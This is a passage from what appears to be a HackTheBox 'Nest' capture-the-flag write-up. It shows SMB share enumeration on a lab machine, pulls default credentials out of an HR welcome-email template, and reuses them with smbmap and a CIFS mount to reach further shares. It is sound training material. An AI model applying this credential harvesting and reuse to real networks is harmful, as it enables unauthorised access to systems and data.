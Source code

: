 ```bash
./Shared/Maintenance/Maintenance Alerts.txt
./Shared/Templates
./Shared/Templates/HR
./Shared/Templates/HR/Welcome Email.txt
./Shared/Templates/Marketing
```
There are two txt files that could be interesting, let us check them out.

```bash
root@darkness:/mnt/nest# cat "Shared/Maintenance/Maintenance Alerts.txt"
There is currently no scheduled maintenance work

root@darkness:/mnt/nest# cat "Shared/Templates/HR/Welcome Email.txt"
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```
The `Welcome Email.txt` file contains credentials for the user `TempUser`. Let us see if this user has any more access.

```bash
root@darkness:~# smbmap -H 10.10.10.178 -u TempUser -p welcome2019
[+] IP: 10.10.10.178:445        Name: 10.10.10.178
        Disk                                         Permissions     Comment
        ----                                         -----------     -------
        ADMIN$                                       NO ACCESS       Remote Admin
        C$                                           NO ACCESS       Default share
        Data                                         READ ONLY
        IPC$                                         NO ACCESS       Remote IPC
        Secure$                                      READ ONLY
        Users                                        READ ONLY
```
The user TempUser has access to a new location: `Secure$`, that was not previously accessible when using a Guest session. Before we check this share out, let us see if we can access any new files in the Data share.

```bash
root@darkness:~# umount /mnt/nest; mount -o user=TempUser -t cifs //10.10.10.178/Data /mnt/nest/
Password for TempUser@//10.10.10.178/Data:  ***********
root@darkness:/mnt/nest# find .
.
./IT
./IT/Archive
./IT/Configs
./IT/Configs/Adobe
./IT/Configs/Adobe/editing.xml
./IT/Configs/Adobe/Options.txt
./IT/Configs/Adobe/projects.xml
./IT/Configs/Adobe/settings.xml
./IT/Configs/Atlas
./IT/Configs/Atlas/Temp.XML
./IT/Configs/DLink
./IT/Configs/Microsoft
./IT/Configs/Microsoft/Options.xml
```